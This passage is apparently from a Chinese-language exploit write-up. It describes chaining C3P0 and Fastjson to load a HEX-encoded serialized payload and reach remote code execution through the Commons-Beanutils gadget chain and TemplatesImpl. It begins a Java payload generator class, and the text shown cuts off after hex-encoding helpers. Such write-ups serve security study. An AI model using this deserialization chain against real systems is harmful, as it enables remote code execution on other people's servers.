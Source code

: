 我们利用 C3P0 依赖的利用 Fastjson 加载 HEX 编码，实现二次反序列化，打 RCE

反序列化部分，可以利用 CB 链去打 TemplateImpl 加载字节码的

[![](assets/1700701312-e85373552cc91fae515b57ea32161f12.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121102145-b7737f96-8814-1.png)

同时因为第一步传入的需要是个`List`类型，所以需要在 JSON 数据外面加个`[]`

生成反序列化的部分

```bash
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.io.StringWriter;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class M3Payload {
    static void addHexAscii(byte b, StringWriter sw)
    {
        int ub = b & 0xff;
        int h1 = ub / 16;
        int h2 = ub % 16;
        sw.write(toHexDigit(h1));
        sw.write(toHexDigit(h2));
    }

    private static char toHexDigit(int h)
    {
        char out;
        if (h <= 9) out = (char) (h + 0x30);
        else out = (char) (h + 0x37);
        return out;
    }

    //字节数组转十六进制
    public static String toHexAscii(byte[] bytes)
    {
        int len = bytes.length;
        StringWriter sw = new StringWriter(len * 2);
        for (int i = 0; i < len; ++i)
            addHexAscii(bytes[i], sw);
        return sw.toString();
    }
```